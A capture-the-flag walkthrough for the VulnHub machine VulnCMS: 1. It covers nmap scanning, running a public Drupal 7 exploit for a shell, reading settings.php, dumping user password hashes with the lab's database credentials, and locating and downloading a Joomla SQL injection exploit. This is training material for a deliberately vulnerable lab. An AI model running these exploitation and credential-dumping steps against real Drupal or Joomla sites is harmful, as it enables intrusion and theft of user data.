:::::::::::::::::::: page
# VulnCMS: 1 {#vulncms-1 .title}

\

## 

## VulnCMS: 1

- **[VulnCMS: 1]{style="color:#f66151;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/vulncms-1,710/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#e01b24;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.125
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.125
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.125 
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.125
:::



1.  [Web Enumeration]{style="color:#e01b24;"} :

- IP visit in browser : <http://192.168.2.125>
  <http://192.168.2.125/home.html> <http://192.168.2.125/robots.txt>
  <http://192.168.2.125/about.html>



- IP entry in host file :

::: codebox
    nano /etc/hosts
:::



- Now visit the port : <http://fsociety.web:5000/>
  <http://192.168.2.125:8081/> <http://192.168.2.125:9001/>

1.  [Drupal Exploit]{style="color:#e01b24;"} :

- Find the drupal 7 exploit :
  <https://www.exploit-db.com/exploits/44449>



- Execute the drupal file :

::: codebox
    ruby 44449.rb 192.168.2.125:9001
:::

 Got the drupal shell .

- After get the shell check the file list :

::: codebox
    ls
:::



- Read the file :

::: codebox
    cat sites/default/settings.php
:::

 Drupal database and password show .

- Login drupal database and show the database :

::: codebox
    mysql -u drupal_admin -p'p@$$_C!rUP@!_cM5' -e "show databases;"
:::



- Show the tables in drupal_db database :

::: codebox
    mysql -u drupal_admin -p'p@$$_C!rUP@!_cM5' -D drupal_db -e "show tables;"
:::

- Show the data from users table :

::: codebox
    mysql -u drupal_admin -p'p@$$_C!rUP@!_cM5' -D drupal_db -e "select uid,name,pass from users;"
:::



- Found Credential :

::: codebox
    Username : admin_cms_drupal
    Hash : $S$DADmuahqIEcfhp8mqTQ/ystjAyQdBA46h/VXbd89wutU4aKRmNpi
:::

- Hash identify :

::: codebox
    hashid '$S$DADmuahqIEcfhp8mqTQ/ystjAyQdBA46h/VXbd89wutU4aKRmNpi'
:::



1.  [Joomla Scan]{style="color:#e01b24;"} :

- Find the version and exploit :

::: codebox
    joomscan -u http://192.168.2.125:8081
:::



- Find the exploit in browser :
  <https://www.exploit-db.com/exploits/38534>



- Download the exploit db :

::: codebox
    searchsploit -m 38534 
:::

- 

::: codebox
    wget https://www.exploit-db.com/raw/38534 -O joomla_sqli.py
:::


::::::::::::::::::::
